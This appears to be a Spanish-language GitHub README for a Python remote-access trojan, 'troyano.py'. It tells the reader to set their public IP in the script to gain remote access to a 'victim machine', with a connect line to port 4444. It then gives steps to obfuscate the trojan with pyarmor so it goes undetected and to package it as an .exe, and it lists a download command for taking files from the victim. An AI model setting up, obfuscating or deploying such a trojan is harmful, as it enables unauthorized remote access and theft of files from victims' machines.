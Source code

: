 # Troyano

<p align="center">
<img src="Logotipo.png">
</p>

Un troyano es un tipo de software malicioso que se disfraza de una aplicación legítima o atractiva para engañar a los usuarios y ganar acceso no autorizado a sus sistemas o dispositivos.

### Instalación
Descargar el repositorio de Github luego configurar el script **troyano.py** con tu IP publica para poder tener acceso remoto a la maquina victima

```python
conexion.connect(("192.168.1.10", 4444))
```


### Ofuscacion

Para hacer indetectable el troyano deberes instalar **pyarmor**

```
pip install pyarmor
```

Ahora ofuscamos el troyano con el siguiente comando:

```
pyarmor gen troyano.py
```

Luego de esto nos creara una carpeta Dist con el troyano ofuscado, por ultimo convertiremos **.py** a **.exe** con auto-py-to-exe.

```
pip install auto-py-to-exe
```

<p align="center">
<img src="./Img/virustotal.png">
</p>

### USO

Puedes descargar archivos con el siguiente comando:

```
download <nombre de archivo>
```